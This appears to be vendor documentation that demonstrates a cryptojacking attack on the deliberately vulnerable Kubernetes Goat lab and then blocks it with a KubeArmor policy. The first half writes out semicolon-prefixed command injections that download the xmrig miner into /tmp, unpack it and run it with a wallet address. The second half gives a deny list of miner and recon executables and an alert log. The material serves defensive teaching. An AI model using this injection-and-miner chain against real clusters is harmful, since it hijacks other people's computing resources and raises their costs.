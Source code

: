```yaml
---
hide:
  - toc
---
```


Cryptojacking, the unauthorized use of someone else’s computing resources for cryptocurrency mining, is a silent but rapidly growing menace. Cryptocurrency mining steals the resources of infected machines, significantly affecting their performance and increasing the wear and tear of hardware. The mining also leads to other costs, like increased power consumption or resource consumption on the cloud.

To showcase a cryptojacking attack, the Kubernetes Goat environment is used(<a href="https://github.com/madhuakula/kubernetes-goat?tab=readme-ov-file#-setting-up-kubernetes-goat", target=_blank>Kubernetes Goat Setup</a>). The Health Check deployment in Kubernetes Goat has a command injection vulnerability which allows executing commands inside the container by prefixing ```;```

## Exploiting vulnerability to deploy xmrig

To exploit the command injection vulnerability and get started with mining, start by checking the OS that the container is running on:

```sh
;uname -a
```
For the health check deployment, the OS is ubuntu. 

**Step 1**: Download the binary release of xmrig for linux-static from the <a href="https://github.com/xmrig/xmrig/releases", target="_blank">open source github page</a>. The attacker will use a version of the binary with the config file already populated with the required info.

```sh
;wget https://github.com/xmrig/xmrig/releases/download/v6.21.2/xmrig-6.21.2-linux-static-x64.tar.gz -P /tmp
```
After executing the above, the binary is downloaded into the container which can be confirmed by using ```ls```

![](images/crypto-mining/goat-ls.png)

**Step 2**: Install the xmrig binary into the ```/tmp``` folder

```sh
;tar xvzf /tmp/xmrig-6.21.2-linux-static-x64.tar.gz -C /tmp
```
On successful install, an output similar to below will be visible

![](images/crypto-mining/xmrig-installed.png)

**Step 3**: Try running xmrig with the below command

```sh
;/tmp/xmrig-6.21.2/xmrig 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD
```
Now xmrig starts to mine and here, the load becomes too high that the container gets restarted
```sh
vagrant@demo:~/kubernetes-goat$ kubectl get pods -l app=health-check -w
NAME                                       READY   STATUS    RESTARTS        AGE
health-check-deployment-5777c5c54b-xfsjr   1/1     Running   2 (7m49s ago)   19h
health-check-deployment-5777c5c54b-xfsjr   0/1     OOMKilled   2 (10m ago)     19h
health-check-deployment-5777c5c54b-xfsjr   1/1     Running     3 (7s ago)      19h
```

## Protection Using AccuKnox

AccuKnox can help protect against cryptominers by blocking specific executables used for mining and thwarting the other generally used techniques for deploying cryptominers.

The following KubeArmor policy can be used for securing the health check deployment from any cryptominers including xmrig:

```sh
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: prevent-crypto-miners
spec:
  selector:
    matchLabels:
      app: health-check
      
  action: Block
  process:
    # do not allow execution of binaries from /tmp/ directory
    matchDirectories:
    - dir: /tmp/
      recursive: true
    
    matchPaths:
    # do not allow execution of xmrig (xmrig.com)
    - execname: xmrig
    
    # prevent execution of Dero miner
    - execname: dero
    - execname: dero-miner-linux-amd64
    - execname: dero-wallet-cli-linux-amd64
    - execname: derod-linux-amd64

    # do not allow execution of masscan/zgrab2/nmap used for recon 
    - execname: zgrab2
    - execname: masscan
    - execname: nmap
    
    # do not allow package management tools execution
    - execname: apt
    - execname: apk
    
    # time sync is important for miners. typically ntpdate is used.
    - execname: ntpdate
  
  # Do not allow overwriting system binaries
  file:
    matchDirectories:
    - dir: /usr/local/bin/
      readOnly: true
      recursive: true
    - dir: /sbin/
      readOnly: true
      recursive: true
    - dir: /bin/
      readOnly: true
      recursive: true
    - dir: /usr/bin/
      readOnly: true
      recursive: true
    - dir: /var/local/bin/
      readOnly: true
      recursive: true
    - dir: /boot/
      readOnly: true
      recursive: true
    
  message: cryptominer detected and blocked
  severity: 10
  tags: 
    - cryptominer
```

The above policy,

- Prevents execution of binaries from the ```/tmp/``` directory

- Prevents execution of any processes with an execname of ```xmrig```, ```dero```, ```dero-miner-linux-amd64```, ```dero-wallet-cli-linux-amd64```, ```derod-linux-amd64```, ```zgrab2```, ```masscan```, ```nmap```, ```apt```, ```apk``` and ```ntpdate``` in the system

- Prevents write to ```/usr/local/bin/```, ```/sbin/```, ```/bin/```, ```/usr/bin/```, ```/var/local/bin/```, ```/boot/``` which contain system binaries

To apply the policy in SaaS,

**Step 1**: To create the policy Navigate to Runtime Protection → Policies. Then select **Create Policy** option from the screen.

![](images/crypto-mining/create-policy.png)

**Step 2**: In the policy editor tool create/upload the above policy. Select the Cluster, namespace, **Save** and then select **Save to workspace** option.

![](images/crypto-mining/save-policy.png)

**Step 3**: Apply the policy by clicking on the three dots next to the saved policy and selecting **Apply Policy**.

![](images/crypto-mining/apply-policy.png)

**Step 4**: The policy is applied successfully. Now, try to execute xmrig again

```sh
;/tmp/xmrig-6.21.2/xmrig 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD
```
Exit status 126 is shown as xmrig is not allowed to be executed

![](images/crypto-mining/xmrig-exit.png)

Alerts are generated for the execution attempt:

```sh
ClusterName: k3scluster
HostName: worker-node02
NamespaceName: default
PodName: health-check-deployment-5777c5c54b-xfsjr
Labels: app=health-check
ContainerName: health-check
ContainerID: cd273bd868238379e9c419e9fbe7b5aeef099d8786502745cf341cf6b2b17116
ContainerImage: docker.io/madhuakula/k8s-goat-health-check:latest@sha256:ab8f3dd527e0a180f42af358d88b22e4bbe8ca81f45f6e404780e665b63da97e
Type: MatchedPolicy
PolicyName: prevent-crypto-miners
Severity: 10
Message: cryptominer detected and blocked
Source: /bin/dash
Resource: /tmp/xmrig-6.21.2/xmrig 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD
Operation: Process
Action: Block
Data: syscall=SYS_EXECVE
Enforcer: AppArmor
Result: Permission denied
ATags: [cryptominer]
Cwd: /
HostPID: 21988
HostPPID: 21986
Owner: map[Name:health-check-deployment Namespace:default Ref:Deployment]
PID: 38
PPID: 36
ParentProcessName: /bin/dash
ProcessName: /tmp/xmrig-6.21.2/xmrig
Tags: cryptominer
UID: 0
```

The permission is denied for xmrig as a binary with that execname is not allowed to be executed. We have also set to prevent execution of binaries from the ```/tmp/``` directory to prevent any other cryptominers to be executed using the same methodology.